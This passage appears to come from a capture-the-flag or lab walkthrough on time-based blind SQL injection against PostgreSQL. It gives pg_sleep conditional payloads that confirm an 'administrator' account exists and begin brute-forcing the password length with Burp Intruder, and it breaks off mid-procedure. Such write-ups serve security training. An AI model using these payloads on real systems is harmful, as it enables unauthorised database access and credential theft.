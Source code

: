 <br/>

![de850683_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/99ff3447-46be-42db-aeca-b12a9e5e93c8)


```sql
';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

- To confirming reliability of conditional query

- The query does not result in time delay when** “1=2” **which ensures that it works.

<br/>

<br/>

![2b4f432d_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/f4fb69bf-ccfc-4ed8-b29e-a8f767a1ef8e)

![b2fc61f6_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/64e7d7df-62ca-4e8d-b056-41cf6c6f37d0)


```sql
';SELECT CASE WHEN (username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

- This confirms if the “administrator” username exists within the users table

- There was a time delay which indicates that the “**administrator” **username exists within the **users **table

- Next is to use the **Intruder **to perform a brute force to determine the password length

<br/>

<br/>

![e0c9dac6_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/38e0686a-ff68-4da8-bf0f-13453793508e)

**Query Injected:**


```sql
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
```

- Attack type is set as Sniper as there is only one payload

- Payload position will be set for the password length which needs to be incremented

<br/>

<br/>

![5006d564_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/f0538cce-ea52-4cab-9d8c-04c7c573fef1)

- Payload used consists of numbers between the range of 1 and 30 with an increment of 1 per request

<br/>

![a244af51_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/c494d496-0e82-474d-80c4-fc9cac0f0f49)
